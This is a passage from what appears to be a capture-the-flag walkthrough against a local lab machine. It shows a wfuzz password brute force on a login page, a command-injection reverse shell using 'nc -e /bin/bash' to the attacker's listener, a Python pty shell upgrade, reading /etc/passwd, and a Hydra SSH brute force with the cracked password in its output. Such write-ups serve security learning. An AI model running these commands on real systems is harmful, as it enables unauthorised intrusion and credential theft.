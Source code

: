 So I give it as "variable"

```bash
$ wfuzz -c -w NewList.txt -d "username = admin & password = FUZZ" --hh 206 -u http://192.168.56.115/login.php
```
> --hh is a flag that hides responses with a certain number of characters

![Imgur](https://i.imgur.com/bxj4LS6.png)

The difference is with the password "happy". I'm trying it

![Imgur](https://i.imgur.com/jWiHOo5.png)

We got in and we can execute the selected commands. Let's use the Burp Suite to find out what is being done.
It is executed with any system command.
## REVERSE SHELL
Let's see if we can get a reverse shell

![Imgur](https://i.imgur.com/KkJAZkU.png)

We obtain.
```bash
nc + -e + / bin / bash + 192.168.56.103 + 1234
```
 I improve shell by importing bash from python.

```bash
python -c "import pty; pty.spawn ('/ bin / bash')"
```
By doing ```cat / etc / passwd```I can see that there are other users besides root. charles, sam, jim

In jim's directory we see a list of old passwords. As the ssh port is open, I check with Hydra

```bash
hydra -l jim -P dictionary.txt 192.168.56.119 -V -t4 ssh


[ATTEMPT] target 192.168.56.119 - login "jim" - pass "brandy" - 218 of 253 [child 0] (0/0)
[ATTEMPT] target 192.168.56.119 - login "jim" - pass "starwars1" - 219 of 253 [child 1] (0/0)
[ATTEMPT] target 192.168.56.119 - login "jim" - pass "barney" - 220 of 253 [child 2] (0/0)
[ATTEMPT] target 192.168.56.119 - login "jim" - pass "natalia" - 221 of 253 [child 3] (0/0)
[ATTEMPT] target 192.168.56.119 - login "jim" - pass "jibril04" - 222 of 253 [child 0] (0/0)
[22] [ssh] host: 192.168.56.119 login: jim password: jibril04

```
**login: jim password: jibril04**.

## ENUMERATION
### Mailbox
I'm logging in to ssh. An interesting file is mbox. This is a test mailbox file. Only where is the main mailbox folder?

